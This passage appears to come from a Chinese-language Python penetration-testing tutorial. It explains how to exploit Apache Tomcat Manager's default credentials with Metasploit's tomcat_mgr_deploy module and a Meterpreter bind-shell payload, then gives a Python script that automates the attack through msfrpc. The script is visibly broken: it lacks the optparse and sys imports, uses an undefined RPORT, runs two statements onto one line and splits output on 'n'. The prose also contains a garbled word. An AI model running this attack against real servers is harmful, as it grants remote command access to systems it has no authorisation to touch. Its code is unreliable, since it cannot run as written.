 要使用它，请执行`exploit/multi/http/tomcat_mgr_deploy`命令。建立必要参数的配置：`RPORT = 8180, RHOST = 192.168.100.2, USERNAME = tomcat, PASSWORD = tomcat`，选择有效负载`java/meterpreter/bind_tcp`，这将建立一个 MeterMeter 会话并执行漏洞利用。

成功执行利用漏洞攻击后，通过`meterpreter`命令解释器建立连接，该解释器提供一组有用的选项来执行操作，以扩展受攻击系统内的权限。

一旦启动，shell 将回调其主程序，并使它们能够以被利用服务拥有的任何权限输入命令。我们将使用 Java 负载在 MSF 中实现。

在下一个脚本中，我们将自动化该过程，设置参数和负载，并使用剥削选项执行模块。

`RHOST`和`RPORT`参数可以在`optparse`模块的命令行中作为参数给出。

您可以在`msfrpc`文件夹的`exploit_tomcat.py`文件中找到以下代码：

```py
import msfrpc
import time

def exploit(RHOST, RPORT):
    client = msfrpc.Msfrpc({})
    client.login('msf', 'password')
    ress = client.call('console.create')
    console_id = ress['id']

    ## Exploit TOMCAT MANAGER ##
    commands = """use exploit/multi/http/tomcat_mgr_deploy
    set PATH /manager
    set HttpUsername tomcat
    set HttpPassword tomcat
    set RHOST """+RHOST+"""
    set RPORT """+RPORT+"""
    set payload java/meterpreter/bind_tcp
    exploit
    """

    print("[+] Exploiting TOMCAT MANAGER on: "+RHOST)
    client.call('console.write',[console_id,commands])
    res = client.call('console.read',[console_id])
    result = res['data'].split('n')

def main():
    parser = optparse.OptionParser(sys.argv[0] +' -h RHOST -p LPORT')parser.add_option('-h', dest='RHOST', type='string', help='Specify a remote host')
    parser.add_option('-p', dest='LPORT', type='string', help ='specify a port to listen ')
    (options, args) = parser.parse_args()
    RHOST=options.RHOST
    LPORT=options.LPORT

    if (RHOST == None) and (RPORT == None):
        print parser.usage
        sys.exit(0)

    exploit(RHOST, RPORT)

if __name__ == "__main__":
    main()
```
